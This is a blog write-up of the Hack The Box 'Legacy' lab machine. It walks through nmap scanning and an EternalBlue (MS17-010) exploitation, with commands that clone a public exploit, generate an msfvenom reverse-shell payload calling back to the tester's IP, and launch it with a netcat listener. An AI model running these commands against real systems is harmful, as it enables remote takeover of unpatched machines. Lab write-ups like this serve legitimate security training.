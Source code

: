 ```yaml
---
title: "Legacy"
date: 2023-06-26T00:50:22+02:00
tags: ["smb","windows"]
categories: ["hackthebox"]
author: "Ayman Boulaich"
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
description: "A windows room that has vulnerable samba service running."
canonicalURL: "https://canonical.url/to/page"
disableHLJS: true # to disable highlightjs
disableShare: true
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: false
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
cover:
    image: "<image path/url>" # image path/url
    alt: "<alt text>" # alt text
    caption: "<text>" # display caption under cover
    relative: false # when using page bundles set this to true
    hidden: true # only hide on current single page
editPost:
    URL: "https://github.com/pwndside/pwndside.github.io/content"
    Text: "Suggest Changes" # edit text
    appendFilePath: true # to append file path to Edit link
---
```


## Room Information

- Room name: Legacy
- Difficulty level: Easy
- Room link: https://app.hackthebox.com/machines/Legacy

![Untitled](/HTB/legacy-icon.png)

## Tools Used

- Nmap
- Msfvenom
- Github

## Port Scanning

First we need to do a port scan to know what are we trying to exploit.

```bash
PORT    STATE SERVICE     REASON          VERSION
135/tcp open  msrpc       syn-ack ttl 127 Microsoft Windows RPC
139/tcp open  netbios-ssn syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp open              syn-ack ttl 127 Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
| smb-os-discovery:
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2023-06-30T18:16:12+03:00
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 40600/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 29179/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 50902/udp): CLEAN (Failed to receive data)
|   Check 4 (port 8957/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 5d00h27m38s, deviation: 2h07m16s, median: 4d22h57m38s
| nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:b9:90 (VMware)
| Names:
|   LEGACY<00>           Flags: <unique><active>
|   HTB<00>              Flags: <group><active>
|   LEGACY<20>           Flags: <unique><active>
|   HTB<1e>              Flags: <group><active>
|   HTB<1d>              Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
| Statistics:
|   00:50:56:b9:b9:90:00:00:00:00:00:00:00:00:00:00:00
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|_  00:00:00:00:00:00:00:00:00:00:00:00:00:00
|_smb2-security-mode: Couldn't establish a SMBv2 connection.
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```

Look like we have two smb ports the 139,445 so we are going to focus on them.

## Enumeration

With `sudo nmap 10.10.10.14 -p 139,445 --script=vuln` I am going to see if nmap can see some vulnerabilities.

```bash
Host script results:
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (sudo)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms08-067:
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|
|     Disclosure date: 2008-10-23
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
```

I found two possible vulnerabilities the MS17-010 (CVE-2017-0143) and MS08-067 (CVE-2008-4250) but because I have SMB v1 I am going to exploit the first one.

## Exploiting

The CVE-2017-0143 or better called Eternal Blue is a vulnerability that allows us to exploit the Microsoft’s implementation of the Server Message Block (SMB) protocol with a crafted package to have RCE in the victim machine. 

I can exploit the machine easily with metasploit but I am going to try another way more oscp friendly.

If we google MS17-010 we can found a git repository: https://github.com/helviojunior/MS17-010.git

```bash
git clone https://github.com/helviojunior/MS17-010.git
```

Once we cloned the exploit let’s get a reverse shell with mfsvenom (Legal in OSCP).

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.17 LPORT=4444 -f exe > eternalblue.exe
```

With a listener and sending the reverse shell with the help of the exploit we are able to own the machine.

```bash
nc -lv 4444
```

```bash
python send_and_execute.py 10.10.10.4 ~/Documents/exploits/eternalblue.exe
```

## Gaining an Initial Foothold

We are in now, with `dir user.txt /s` and `dir root.txt /s` we can know where is the flags.

![Untitled](/HTB/legacy-1.png)

![Untitled](/HTB/legacy-2.png)

## Lessons Learned

- What insights did you gain from the room?
    
    Now, we know how to perform a windows samba attack with the eternal blue vulnerability that allows me to RCE the victim machine.
    
- Were there any novel tools or techniques employed?
    
    I performed a CVE-2017-0143 exploit and msfvenom reverse shell.

**Thank you for reading, and happy hacking! 😄**